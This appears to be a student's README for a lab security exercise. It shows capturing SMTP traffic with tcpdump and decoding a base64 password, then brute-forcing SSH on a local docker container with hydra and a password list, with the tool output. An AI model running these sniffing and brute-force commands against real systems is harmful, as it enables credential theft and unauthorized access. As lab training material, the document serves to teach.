 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using
```
echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode
```
I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server -
```
sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1
```
and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) -
```
sed -i '/^.\{11\}$/!d' password_dictionary.txt
```

I used
```
hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1
```

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password

### Resources
password_dictionary.txt source is the Kaggle bruteforce-database-passwords originally named
`1000000-password-seclists.txt` - [Download Repo](https://www.kaggle.com/datasets/taranvee/bruteforce-database-password-dictionaries?resource=download)
